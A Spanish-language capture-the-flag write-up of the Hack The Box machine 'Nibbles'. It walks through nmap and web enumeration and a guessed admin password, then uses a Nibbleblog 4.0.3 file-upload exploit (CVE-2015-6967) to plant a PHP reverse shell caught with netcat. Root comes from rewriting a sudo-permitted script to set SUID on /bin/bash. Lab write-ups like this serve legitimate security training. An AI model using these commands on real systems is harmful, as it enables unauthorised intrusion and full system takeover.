


# Nibbles

`Nibbles` es una máquina bastante simple, sin embargo, con la inclusión de una lista negra de inicio de sesión, es un poco más difícil encontrar credenciales válidas. Afortunadamente, se puede enumerar un nombre de usuario y adivinar la contraseña correcta no lleva mucho tiempo para la mayoría.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Nibbles**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.75 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-14 18:34 CET
Initiating SYN Stealth Scan at 18:34
Scanning 10.10.10.75 [65535 ports]
Discovered open port 22/tcp on 10.10.10.75
Discovered open port 80/tcp on 10.10.10.75
Completed SYN Stealth Scan at 18:34, 19.02s elapsed (65535 total ports)
Nmap scan report for 10.10.10.75
Host is up, received user-set (0.074s latency).
Scanned at 2025-02-14 18:34:13 CET for 19s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 19.10 seconds
           Raw packets sent: 66940 (2.945MB) | Rcvd: 66949 (2.678MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.75
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Apache`.

```bash
❯ nmap -sCV -p22,80 10.10.10.75 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-14 18:37 CET
Nmap scan report for 10.10.10.75
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.13 - 4.4, Linux 3.2 - 4.14, Linux 3.8 - 3.16
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   67.21 ms 10.10.16.1
2   40.66 ms 10.10.10.75

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.71 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Realizaremos una comprobación de las tecnologías que utiliza el sitio web.

```bash
❯ whatweb http://10.10.10.75
http://10.10.10.75 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75]
```

Al acceder a http://10.10.10.75 verificamos que el contenido de la página web solamente nos muestra `Hello world!`.

<figure><figcaption></figcaption></figure>

Al verificar el código fuente de la página web, comprobamos que se nos menciona de un directorio llamado `nibbleblog`.

<figure><figcaption></figcaption></figure>

Realizaremos una comprobación de las tecnologías que utiliza el siguiente sitio web.

```bash
❯ whatweb http://10.10.10.75/nibbleblog/
http://10.10.10.75/nibbleblog/ [200 OK] Apache[2.4.18], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75], JQuery, MetaGenerator[Nibbleblog], PoweredBy[Nibbleblog], Script, Title[Nibbles - Yum yum]
```

Al acceder a http://10.10.10.75/nibbleblog/, comprobamos que se trata de `Nibbleblog`.


Nibbleblog es un CMS (Content Management System) ligero y simple, escrito en PHP, diseñado para blogs pequeños. Es fácil de instalar y usar, ya que no requiere una base de datos tradicional, sino que almacena los datos en archivos XML.


<figure><figcaption></figcaption></figure>

A través de la herramienta `feroxbuster`, realizaremos una enumeración de directorios y páginas web. Verificamos que se nos muestran diferentes archivos que podremos inspeccionar.

```bash
❯ feroxbuster -u http://10.10.10.75/nibbleblog
                                                                                                                                                                                                                                                                                                                                                                                                                                                                
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.75/nibbleblog/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        2l        6w       97c http://10.10.10.75/nibbleblog/content/private/tags.xml
200      GET        2l       50w     1936c http://10.10.10.75/nibbleblog/content/private/config.xml
200      GET        0l        0w        0c http://10.10.10.75/nibbleblog/content/private/keys.php
200      GET        2l       14w      431c http://10.10.10.75/nibbleblog/content/private/comments.xml
200      GET        2l       21w      325c http://10.10.10.75/nibbleblog/content/private/categories.xml
200      GET        2l       17w      503c http://10.10.10.75/nibbleblog/content/private/users.xml
200      GET        0l        0w        0c http://10.10.10.75/nibbleblog/content/private/shadow.php
```

Al analizar los distintos archivos, nos encontramos con el archivo `users.xml` el cual nos proporciona el nombre de un usuario del CMS.

```bash
❯ curl -s 'http://10.10.10.75/nibbleblog/content/private/users.xml'
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<users><user username="admin"><id type="integer">0</id><session_fail_count type="integer">0</session_fail_count><session_date type="integer">1739493766</session_date></user><blacklist type="string" ip="10.10.10.1"><date type="integer">1512964659</date><fail_count type="integer">1</fail_count></blacklist><blacklist type="string" ip="10.10.14.21"><date type="integer">1739490723</date><fail_count type="integer">1</fail_count></blacklist><blacklist type="string" ip="10.10.16.7"><date type="integer">1739555237</date><fail_count type="integer">1</fail_count></blacklist></users>
```

Por otro lado, volveremos a realizar una enumeración de páginas y directorios, esta vez con `dirsearch`. En el resultado obtenido, verificamos una página web llamada `admin.php`.

```bash
❯ dirsearch -u 'http://10.10.10.75/nibbleblog' -t 50 -i 200 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Nibbles/Nibbles/reports/http_10.10.10.75/_nibbleblog_25-02-14_18-55-19.txt

Target: http://10.10.10.75/

[18:55:19] Starting: nibbleblog/
[18:55:30] 200 -  606B  - /nibbleblog/admin.php
[18:55:30] 200 -  517B  - /nibbleblog/admin/
[18:55:31] 200 -  564B  - /nibbleblog/admin/js/tinymce/
```

Al ingresar a [http://10.10.10.75/nibbleblog/admin.php](http://10.10.10.75/nibbleblog/admin.php) nos encontramos con la siguiente página web del panel de Administración del CMS de `Nibbleblog`.

<figure><figcaption></figcaption></figure>

Después de un tiempo intentando encontrar vectores de ataque para tener acceso al CMS, probamos de acceder con el usuario encontrado y credenciales del nombre de máquina, finalmente logramos el acceso. `admin/nibbles`

<figure><figcaption></figcaption></figure>

## Initial Access

### Abusing Nibbleblog 4.0.3 - Arbitrary File Upload (Remote Code Execution) \[CVE-2015-6967]

Una vez teniendo acceso al CMS de `Nibbleblog`, nos encontramos con el archivo `README` el cual nos proporciona la versión exacta del CMS.

```bash
❯ curl -s 'http://10.10.10.75/nibbleblog/README' | head -n 5
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```

Al realizar una búsqueda de vulnerabilidades de esta versión del CMS, nos encontramos con la siguiente de `Arbitrary File Upload`.

```bash
❯ searchsploit Nibbleblog
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                     |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                                                                                                                                                             | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                                                                                                                                              | php/remote/38489.rb
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Al analizar en profundidad la posible vulnerabilidad, nos encontramos con el siguiente `CVE-2015-6967`.


La vulnerabilidad de carga de archivos sin restricciones en el complemento My Image en Nibbleblog anterior a 4.0.5 permite a los administradores remotos ejecutar código arbitrario cargando un archivo con una extensión ejecutable y luego accediendo a él mediante una solicitud directa al archivo en content/private/plugins/my\_image/image.php.




Nos encontramos con el siguiente repositorio de GitHub que nos permite realizar la subida del archivo malicioso.



```bash
❯ git clone https://github.com/dix0nym/CVE-2015-6967; cd CVE-2015-6967
Clonando en 'CVE-2015-6967'...
remote: Enumerating objects: 7, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 7 (delta 0), reused 4 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (7/7), listo.
```

En nuestro directorio actual de trabajo, nos copiaremos el archivo `php-reverse-shell.php` el cual modificaremos para indicarle nuestra dirección IP y puerto donde recibiremos la Reverse Shell.

```bash
❯ cp /usr/share/webshells/php/php-reverse-shell.php .
```

<figure><figcaption></figcaption></figure>

Renombraremos el archivo mencionado, y ejecutaremos el exploit para subir el archivo malicioso al CMS.

```bash
❯ mv php-reverse-shell.php shell.php

❯ python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
```

Nos pondremos en escucha para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Seguidamente, realizaremos la petición por `GET` del archivo malicioso subido al CMS para que sea ejecutado en el servidor.

```bash
❯ curl -s -X GET 'http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php'
```

Comprobamos que hemos ganado finalmente el acceso al equipo y podemos visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.75] 54860
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 13:05:38 up 19:01,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
nibbler@Nibbles:/$ cat /home/nibbler/user.txt
cat /home/nibbler/user.txt
d08355b8d4c************************
```

## Privilege Escalation

### Abusing sudoers privilege

Revisaremos los grupos a los que formamos parte y si disponemos de algún privilegio de `sudoers`. Nos encontramos que podemos ejecutar como `sudo` sin proporcionar credenciales un script en Bash ubicado en `/home/nibbler/personal/stuff/monitor.sh`.

```bash
nibbler@Nibbles:/$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
nibbler@Nibbles:/$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Revisando el directorio personal del usuario `nibbler`, nos encontramos con un archivo comprimido (`personal.zip`) el cual al descomprimirlo se nos generan los directorios correspondientes y el script mencionado anteriormente.

```bash
nibbler@Nibbles:/home/nibbler$ ls -l
total 8
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Feb 13 18:04 user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip  
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```

Revisamos los permisos del archivo `monitor.sh` el cual somos el propietario, y el contenido de este mismo.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh

nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh | head -n 20
                  ####################################################################################################
                  #                                        Tecmint_monitor.sh                                        #
                  # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #
                  # If any bug, report us in the link below                                                          #
                  # Free to use/edit/distribute the code below by                                                    #
                  # giving proper credit to Tecmint.com and Author                                                   #
                  #                                                                                                  #
                  ####################################################################################################
#! /bin/bash
# unset any variable which system may be using
```

Dado que somos el propietario de este script, lo que podemos realizar es modificarlo para que realice otra acción diferente a la que estaba pensada originalmente.

En nuestro caso, modificaremos el script para que convierta el binario `/bin/bash`en `SUID`.  Le daremos los permisos correspondientes para que pueda ser ejecutado.

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh 
#!/bin/bash

chmod u+s /bin/bash 

nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
total 4
-rwxrwxrwx 1 nibbler nibbler 34 Feb 14 13:10 monitor.sh
```

Ejecutaremos el script como usuario `sudo` debido que disponemos de dicho privilegio. Al revisar los permisos del binario `/bin/bash`, verificamos que se le han asignado correctamente los permisos de `SUID`. Una vez teniendo el binario modificado, nos convertiremos en usuario `root` y visualizaremos la flag de **root.txt**

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 May 16  2017 /bin/bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
adc3c5445aeee*********************
```
